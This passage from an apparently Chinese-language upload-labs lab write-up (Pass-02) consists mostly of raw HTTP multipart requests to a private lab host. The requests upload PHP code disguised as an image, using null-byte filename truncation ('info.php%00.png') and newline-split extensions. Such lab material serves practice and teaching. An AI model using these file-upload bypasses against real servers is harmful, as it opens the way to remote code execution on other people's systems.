 ```bash
Content-Disposition: form-data; name="submit"

涓婁紶
-----------------------------156187617541967037312717027348--
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627982302049-a76640e6-9969-4c9a-9f1c-520dcc812888.png#clientId=ua88b9d30-961d-4&from=paste&height=472&id=u0dcd5ddb&originHeight=944&originWidth=1913&originalType=binary&ratio=1&size=160592&status=done&style=none&taskId=u05efe4df-f9a9-4ab8-842f-78f9b4b64a0&width=956.5)<br /> 
<a name="MWyYF"></a>
#### %00截断
```bash
POST /Pass-02/index.php?action=show_code HTTP/1.1
Host: 10.1.1.6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------156187617541967037312717027348
Content-Length: 371
Origin: http://10.1.1.6
Connection: close
Referer: http://10.1.1.6/Pass-02/index.php?action=show_code
Upgrade-Insecure-Requests: 1

-----------------------------156187617541967037312717027348
Content-Disposition: form-data; name="upload_file"; filename="info.php%00.png"
Content-Type: image/jpeg

<?php phpinfo(); ?>
-----------------------------156187617541967037312717027348
Content-Disposition: form-data; name="submit"

涓婁紶
-----------------------------156187617541967037312717027348--

```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627982478279-2d122c5a-3e1b-4a16-9abe-9f27d6625309.png#clientId=ua88b9d30-961d-4&from=paste&height=521&id=uee1a95a4&originHeight=1042&originWidth=1920&originalType=binary&ratio=1&size=175267&status=done&style=none&taskId=u9ec886e1-73bf-46a8-bed9-505fc02dbf7&width=960)
<a name="EeKd1"></a>
#### 换行执行
```bash
POST /Pass-02/index.php?action=show_code HTTP/1.1
Host: 10.1.1.6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------156187617541967037312717027348
Content-Length: 368
Origin: http://10.1.1.6
Connection: close
Referer: http://10.1.1.6/Pass-02/index.php?action=show_code
Upgrade-Insecure-Requests: 1

-----------------------------156187617541967037312717027348
Content-Disposition: form-data; name="upload_file"; filename="x.
p
h
p"
Content-Type:  image/jpeg

<?php phpinfo(); ?>
-----------------------------156187617541967037312717027348
```